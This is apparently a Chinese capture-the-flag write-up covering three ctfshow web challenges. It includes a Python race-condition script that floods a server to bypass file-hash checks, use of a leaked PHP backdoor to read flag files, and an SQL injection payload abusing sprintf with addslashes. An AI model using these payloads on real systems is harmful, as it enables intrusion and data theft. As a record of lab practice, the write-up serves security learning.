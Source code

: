 #### 红包题第六弹

==**对网上搜寻的题解进行一些勘误**==

实际上有fastcoll生成的相同的MD5值的文件仍然绕不过第一层的md5_file，因为新生成的两个文件的md5值才相同，而与源文件不同，**本题实际考察的是条件竞争**，通过并发编程实现先后两层的绕过

##### 信息收集

首先有hint提示，不是SQL注入，可以发现源码，于是使用dirmap扫描出来有网站备份文件，解压后，代码如下：

```php
function receiveStreamFile($receiveFile){
 
    $streamData = isset($GLOBALS['HTTP_RAW_POST_DATA'])? $GLOBALS['HTTP_RAW_POST_DATA'] : '';
 
    if(empty($streamData)){
        $streamData = file_get_contents('php://input');
    }
    if($streamData!=''){
        $ret = file_put_contents($receiveFile, $streamData, true);
    }else{
        $ret = false;
    }
    return $ret;
}
if(md5(date("i")) === $token){
	
	$receiveFile = 'flag.dat';
	receiveStreamFile($receiveFile);
	if(md5_file($receiveFile)===md5_file("key.dat")){
		if(hash_file("sha512",$receiveFile)!=hash_file("sha512","key.dat")){
			$ret['success']="1";
			$ret['msg']="人脸识别成功!$flag";
			$ret['error']="0";
			echo json_encode($ret);
			return;
		}

			$ret['errormsg']="same file";
			echo json_encode($ret);
			return;
	}
			$ret['errormsg']="md5 error";
			echo json_encode($ret);
			return;
} 

$ret['errormsg']="token error";
echo json_encode($ret);
return;
```

##### 阅读源码

首先有一个对token的判断，于是我们抓包看看，

![](D:\0-CTF\Documents\WP\images\ctfshow_红包题6_1.jpg)

发现确实有一个token，是对当前日期做了一个MD5的编码，可以用python实现，然后设置了一个receivefile为flag.dat，然后调用`receiveStreamFile($receiveFile);`，可以发现是需要用php://input获取文件流，然后返回一个文件，接下来需要自己传上去的文件与已存在的`key.dat`的MD5要一致，sha512不一致，即可打印出flag

##### 解题

那么我们的思路是，首先获得key.dat，首先访问一下这个文件，emmm，果然直接下载了，那么第一层的绕过我们直接就使用了`key.dat`文件，第二层的sha1值我们随便上传一个字符串即可，所以我们需要**并发编程，将$receiveFile中的内容在极短时间内进行替换**，这里我们可以编写一个python脚本来进行解题。

payload:

```python
import requests
import time
import hashlib
import threading

#这里为什么用分钟数生成：因为通过抓包发现改变分钟后token值才会变化
i=str(time.localtime().tm_min)
#生成token
m=hashlib.md5(i.encode()).hexdigest()
url="http://063e4649-b8da-4090-8a6b-da6b11fa5f07.challenge.ctf.show/check.php?token={}&php://input".format(m)

def POST(data):
    try:
        r=requests.post(url,data=data)
        if "ctfshow" in r.text:
            print(r.text)
            pass
        # print(r.text)
        pass
    except Exception as e:
        print("somthing went wrong!")
        pass
    pass

with open('key.dat','rb') as t:
    data1=t.read()
    pass
for i in range(50):
    threading.Thread(target=POST,args=(data1,)).start()
for i in range(50):
    data2='emmmmm'
    threading.Thread(target=POST,args=(data2,)).start()
```

得出：

```
{"success":"1","msg":"\u4eba\u8138\u8bc6\u522b\u6210\u529f!ctfshow{6f98bbcc-82e2-4c3e-a46e-0a8f8ad403cd}","error":"0","errormsg":""}
```



#### 红包题第七弹

##### 信息收集

一开始进去就是一个phpinfo的页面，发现disable_function了一些函数，猜测会用到shell命令，但是没有多余的信息，于是使用dirmap扫描，发现有.git文件，直接访问得到403，无果，可能存在git泄露。

##### 解题

于是尝试获取源码，先后使用Git Hack和Git_Extract获取，Githack只获取到了存在index.php和backdoor.php两个文件名，另一个获取到了源码，如下：

![](D:\0-CTF\Documents\WP\images\ctfshow_红包题7_1.jpg)

得到Letmein后门，于是用中国蚁剑连接，发现读取不了文件，果然是disable_function在起作用，那么我们再使用一下插件，发现也打不开，emmm，那就手工吧，现在是蚁剑已经获取到了文件目录，在`var/www/flag.txt`可能存在flag，于是我使用如下payload:

`Letmain=print_r(highlight_file("var/www/flag.txt"))`，成功解题



#### 萌新赛-给她

##### 信息收集

进去是一个SQL语句展示，emmm，那就写几句SQL注入看看，抓包，用字典FUZZ，一个没出，发现单引号都被转义了，猜测后台是有一个`addslashes`函数，那么我们可以联想到`sprintf`函数与`addslashes`函数连用造成的逻辑漏洞，但是不确定，目录扫描可不能少，扫一下，发现有git，直接访问报403，那用GitHack拉取一下，发现`hint.php`

![](D:\0-CTF\Documents\WP\images\ctfshow_给她_1.jpg)

发现确实如我们所想，存在sprintf函数

##### sprintf函数的底层逻辑漏洞

由于该函数的底层逻辑上只对15中占位符有分支，而其他的则直接没处理，而造成的被替换为空字符，如：

```php
<?php
$sql="select * from user where username='%\' and 1=1 #';";
$user='admin';
echo sprintf($sql,$user);
?>
//打印出来：select * from user where username='' and 1=1 #';
```

**可被替换为空的占位符：`%\`,`%1$\`**

##### 解题

那么我可以构造如下payload：`name=admin&pass=1%1$'or 1=1%23`

在后台应该是：`select * from user where name ='admin' and pass='1'or 1=1#'`

返回了一个报错页面，发现不是原生的报错，check一下源码：

![](D:\0-CTF\Documents\WP\images\ctfshow_给她_2.jpg)

发现存在hint，那么文件位置我们已经知晓，下面就是如何读取文件，首先想到的是用load_file函数，但是没搞出来，然后无意间抓了一个包，好家伙，**cookie里竟然藏了一个file**，抓出来转16进制，得到`flag.txt`，那么我们放入`/flag`的16进制进去`2f666c6167`，放包，得到flag：`ctfshow{9cd199ec-f7ef-41e0-9a1f-234d9ab5628d}`

![](D:\0-CTF\Documents\WP\images\ctfshow_给她_3.jpg)

